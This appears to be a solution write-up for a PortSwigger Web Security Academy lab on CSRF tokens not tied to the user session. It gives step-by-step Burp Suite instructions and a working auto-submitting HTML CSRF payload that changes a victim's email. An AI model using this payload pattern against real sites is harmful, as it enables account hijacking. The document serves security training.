

[Source](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-not-tied-to-user-session)
## Task
The email address change functionality in this lab is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they are not integrated into the site's session management system.
To solve the task, use your exploit server to host an HTML page that uses a CSRF attack to change the email address of the user viewing the page.
You have two accounts in the application that you can use to develop the attack. The credentials are:
`wiener:peter`
`carlos:montoya`
## Solution
Go to the task site


Log in as `wiener` and change the email. When changing email, intercept the request via `Burp Suite` and copy the CSRF token. After that, drop the request.


```CSRF
sPOdVVO9xk9I86ZNBkBkzwozINP2F61m
```
Then open a new window in incognito mode and log in as the second user `carlos`



Change email, but specify the CSRF token from `wiener` in the request


Then generate `CSRF PoC` and copy the HTML code, drop the request.
```HTML
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a4100dc04cba2988066e97700e40026.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="DeX1d&#64;gmail&#46;com" />
      <input type="hidden" name="csrf" value="sPOdVVO9xk9I86ZNBkBkzwozINP2F61m" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```


Go to `Exploit Server` and paste that HTML code into the `Body` field.


Then click `Store` and `Deliver exploit to victim`


